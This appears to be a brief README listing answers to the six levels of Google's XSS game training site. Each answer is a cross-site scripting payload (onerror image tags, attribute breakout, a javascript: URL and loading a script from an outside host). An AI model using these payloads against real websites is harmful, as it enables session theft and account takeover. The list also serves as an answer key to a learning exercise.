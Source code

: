 ## Google XSS game solutions
https://xss-game.appspot.com

Solutions

1. `<img src=x onerror=alert(1)>`
2. `<img src=x onerror=alert(1)>`
3. `#' onerror=alert(1)>//`
4. `'); alert('XSS`
5. `/signup?next=javascript:alert(1);`
6. `#/httPs://abhaynayar.com/xss.js`


